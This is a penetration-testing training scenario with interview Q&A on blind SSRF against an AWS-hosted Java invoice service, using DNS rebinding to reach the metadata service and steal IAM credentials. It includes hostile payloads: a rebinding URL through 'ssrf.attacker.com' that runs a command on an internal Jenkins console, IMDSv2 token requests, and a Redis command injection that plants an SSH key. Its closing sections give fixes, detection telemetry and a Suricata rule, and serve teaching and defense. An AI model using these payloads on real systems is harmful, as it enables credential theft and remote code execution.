

# Web Ultra 03 - Blind SSRF to AWS Metadata Exfiltration via DNS Rebinding

## 1. Scenario Briefing

**Context:**
You are engaged in a white-box penetration test against a modern, cloud-native application deployed on AWS EC2 instances. The application allows users to submit a URL to a custom logo image, which the backend (written in Java/Spring Boot) fetches, processes, and embeds into PDF invoices.
The developers are aware of Server-Side Request Forgery (SSRF) and have implemented a seemingly robust defense: before making the HTTP request, the backend resolves the provided URL's hostname to an IP address, checks if the IP is internal/private (RFC 1918) or matches the AWS Metadata IP (`169.254.169.254`), and strictly blocks it. Only external IPs are permitted.

**The Goal:**
Bypass the IP validation filter using an advanced DNS Rebinding technique, exploit the Blind SSRF, bypass AWS IMDSv2 protections, and exfiltrate the IAM Role credentials attached to the EC2 instance.

**The Catch:**
The application correctly validates the IP *before* fetching. You cannot use simple redirects (e.g., HTTP 302 to localhost) because the Java `HttpURLConnection` is configured to disable following redirects. You cannot use hex/octal IP obfuscation because the custom validation fully resolves the IP.

---

## 2. Architecture & Attack Surface



*   **Vulnerable Endpoint:** `POST /invoice/logo`
*   **Vulnerability:** Time-Of-Check to Time-Of-Use (TOCTOU) via DNS Rebinding.
*   **Complication:** AWS Instance Metadata Service version 2 (IMDSv2) is enforced, requiring a `PUT` request for a token and specific headers for the `GET` request.

---

## 3. Attack Path & Exploitation Physics

### Phase 1: The TOCTOU DNS Rebinding Flaw
The vulnerability lies in the fact that the application resolves the DNS twice.
1.  **Validation Check:** `InetAddress.getByName(url.getHost())` -> verifies IP.
2.  **HTTP Request:** `new URL(url).openConnection()` -> natively resolves the host *again* to establish the TCP socket.

**The Physics:**
DNS records have a Time-To-Live (TTL). If an attacker controls the authoritative nameserver for a domain, they can configure it to return a safe external IP (e.g., `8.8.8.8`) on the first query, with a TTL of 0. When the application makes the second query milliseconds later for the HTTP request, the DNS cache has expired, and the attacker's nameserver returns the malicious internal IP (`169.254.169.254`).

### Phase 2: Setting up the Authoritative DNS
The attacker runs a custom DNS server (like `whonow` or a custom Python script using `dnslib`).
Configuration:
*   First resolution of `ssrf.attacker.com` -> `A 8.8.8.8` (TTL 0)
*   Second resolution of `ssrf.attacker.com` -> `A 169.254.169.254` (TTL 0)

### Phase 3: Bypassing IMDSv2 via Header Injection
AWS IMDSv2 prevents simple SSRF by requiring a session token.
1.  `PUT http://169.254.169.254/latest/api/token` with header `X-aws-ec2-metadata-token-ttl-seconds: 21600`
2.  `GET http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name` with header `X-aws-ec2-metadata-token: <token>`

If our SSRF is a simple `GET` request, how do we perform a `PUT` and inject headers?
**CRLF Injection in the URL.**
If the Java application uses an older HTTP library or mishandles the URL parsing, we can use Carriage Return Line Feed (`%0d%0a`) injection in the URL path to smuggle HTTP headers or an entirely new HTTP request to the metadata service.

Alternatively, if the application endpoint allows us to set arbitrary HTTP headers (e.g., passing a JSON block of custom headers to include with the logo fetch), we can directly specify the token fetch headers.
If we *cannot* bypass IMDSv2 via header injection, we must pivot the SSRF. Instead of attacking AWS Metadata directly, we pivot to an internal application (e.g., `10.0.0.5:8080/admin`) that is not protected by IMDSv2, using the exact same DNS Rebinding chain.

*Assuming we pivot to an internal Jenkins server (`10.0.0.10:8080`) without auth:*
We rebind `ssrf.attacker.com` to `10.0.0.10`.
Payload URL: `http://ssrf.attacker.com:8080/script?script=def+cmd+=+"id".execute();println(cmd.text)`
The result (RCE output) is rendered as a "broken image" or embedded into the PDF text via the PDF generator's error handling.

---

## 4. The Interviewer's Gauntlet (Q&A)

### Q1: "You mentioned Java's `InetAddress.getByName` and then `openConnection()`. Java natively caches DNS resolutions to prevent this exact TOCTOU attack. How does your DNS Rebinding work against Java?"
**Expert Answer:**
"By default, older versions of Java (<= 1.5) cached DNS forever. Modern Java (8+) caches successful DNS lookups for a specific duration defined by the `networkaddress.cache.ttl` property in the `java.security` file.
If the Security Manager is *not* enabled, the default cache TTL is typically 30 seconds. In this scenario, standard rapid DNS rebinding (TTL 0) will fail because the `openConnection()` call will use the JVM's 30-second cache, resolving to `8.8.8.8` again.
However, if the application is running in an environment where `networkaddress.cache.ttl` is set to `0` (often done in highly dynamic microservice environments or Kubernetes so services can failover instantly), the DNS rebinding will work. If the cache is 30 seconds, we can't use immediate rebinding. Instead, we use *connection holding*: we configure our DNS to point to our malicious HTTP server. The first request hits our server, and we hold the TCP connection open indefinitely (tarpitting). The JVM hangs on the first request. After 30 seconds, the cache expires. We then force the connection to drop, triggering a retry logic in the application, which performs a *new* DNS lookup, which we now answer with the internal IP."

### Q2: "What is the difference between IMDSv1 and IMDSv2 from a network exploitation perspective, and why does IMDSv2 stop classic SSRF?"
**Expert Answer:**
"IMDSv1 operates on a simple GET request without authentication. `curl http://169.254.169.254/latest/meta-data/`. Any SSRF that can issue a GET request can steal credentials.
IMDSv2 introduces session-oriented requests. It demands a `PUT` request to a `/latest/api/token` endpoint with a specific `X-aws-ec2-metadata-token-ttl-seconds` header to retrieve a token. This token must then be included in a `X-aws-ec2-metadata-token` header for subsequent `GET` requests.
Furthermore, IMDSv2 sets the IP TTL (Time to Live at the network packet level) to `1`. If an attacker tries to route the IMDS request through an intermediary (like a docker container acting as a proxy), the router decrements the TTL to 0 and drops the packet.
Classic SSRF usually only controls the URL (GET request) and cannot send PUT methods, custom headers, or extract the token to feed into a secondary request, stopping the attack dead."

### Q3: "Let's say IMDSv2 is strictly enforced and CRLF injection is patched. The target IP `169.254.169.254` is perfectly safe from SSRF. What internal IP ranges do you target next on an AWS network?"
**Expert Answer:**
"I would pivot to targeting the AWS VPC infrastructure.
1.  **VPC Default Router:** `10.0.0.1` or the base of the subnet.
2.  **AWS Provided DNS Server:** `169.254.169.253` (the Route53 resolver). I might try to query internal private hosted zones.
3.  **Elasticache / Redis:** Often deployed on `10.x.x.x:6379` with no authentication. SSRF can be used to send Redis commands via the HTTP protocol using `dict://` or `gopher://` (if supported) or by exploiting how Redis parses text protocols over HTTP, writing an SSH key to `/root/.ssh/authorized_keys`.
4.  **EKS Control Plane:** Targeting the Kubernetes API server on internal VPC subnets (`https://10.x.x.x:443`).
5.  **Internal Load Balancers (ALB/NLB):** Searching for internal administration panels or Jenkins instances."

### Q4: "You mentioned using HTTP over Redis via SSRF. How does an HTTP GET request compromise a Redis server?"
**Expert Answer:**
"Redis uses a line-based text protocol. While it's not HTTP, if an application sends an HTTP GET request to `http://10.0.0.5:6379/`, the Redis server receives the HTTP headers as raw text.
Redis doesn't understand `GET / HTTP/1.1`, so it replies with an `-ERR unknown command` error, but it *doesn't close the connection immediately*. It processes the rest of the lines.
If the attacker can inject CRLF in the URL path, or control HTTP headers (like User-Agent), they can inject raw Redis commands:
```http
GET / HTTP/1.1
Host: 10.0.0.5:6379
User-Agent: 
SET backdoor "ssh-rsa AAAAB3N..."
CONFIG SET dir /root/.ssh
CONFIG SET dbfilename authorized_keys
SAVE
Connection: close
```
Redis ignores the invalid HTTP lines, executes the `SET`, `CONFIG`, and `SAVE` commands, and effectively writes the attacker's SSH key to the server, granting full RCE."

### Q5: "How does the application developer perfectly fix the DNS Rebinding vulnerability without relying on JVM caching behavior?"
**Expert Answer:**
"The absolute only way to fix TOCTOU DNS Rebinding in SSRF defense is to resolve the DNS *once*, and then force the HTTP client to use that *exact IP address* for the connection, rather than passing the hostname back to the HTTP client.
In Java, this is complex because `HttpURLConnection` takes a URL object and does its own resolution.
The secure pattern is:
1. Resolve the URL hostname to an IP address.
2. Validate the IP against a strict deny-list (RFC 1918, 169.254.x.x, 0.0.0.0/8, etc.).
3. Reconstruct the URL using the *validated IP address* (e.g., `http://104.22.33.44/image.png`).
4. To ensure TLS/SNI works correctly (since we replaced the hostname with an IP), we must manually inject the `Host: target-domain.com` HTTP header.
By doing this, the HTTP client never performs a secondary DNS lookup, completely eradicating the DNS Rebinding vector."

---

## 5. Defensive Telemetry & Incident Response

### Identifying the Attack in Logs
- **DNS Server Logs (VPC Flow Logs):** Anomalous, high-frequency DNS queries for obscure, low-reputation domains resolving to internal IP space (especially `169.254.169.254` or `127.0.0.1`).
- **Application Logs:** Exceptions indicating PDF rendering failures on images fetched from internal IPs, or timeout errors matching the "tarpit" connection holding technique.
- **CloudTrail:** Any unexpected API calls (e.g., `DescribeInstances`, `CreateUser`) originating from the EC2 instance's IAM role, indicating successful exfiltration and misuse of the credentials.

### Network Level Mitigations
- **IMDSv2 Enforce:** Ensure IMDSv1 is disabled at the AWS account level. `aws ec2 modify-instance-metadata-options --http-tokens required`.
- **Egress Filtering:** The application server should reside in a private subnet with a NAT Gateway. The NAT Gateway or an egress proxy (like Squid) should enforce strict egress filtering, denying any outbound connections to private IP space, ensuring even if the app logic is bypassed, the network drops the packet. 

### Detection Engineering (Snort/Suricata Rule)
Detecting internal routing requests masquerading in HTTP Host headers or URIs:
```suricata
alert http any any -> $HTTP_SERVERS any (msg:"ET SCAN Potential SSRF to AWS Metadata"; http_uri; content:"169.254.169.254"; nocase; classtype:web-application-attack; sid:1000002; rev:1;)
```
*(Note: A sophisticated attacker uses DNS rebinding specifically to bypass this signature, as the URI will say `ssrf.attacker.com`, not the IP. To catch rebinding, you must monitor DNS responses at the network boundary for RFC 1918 or 169.254.x.x answers).*
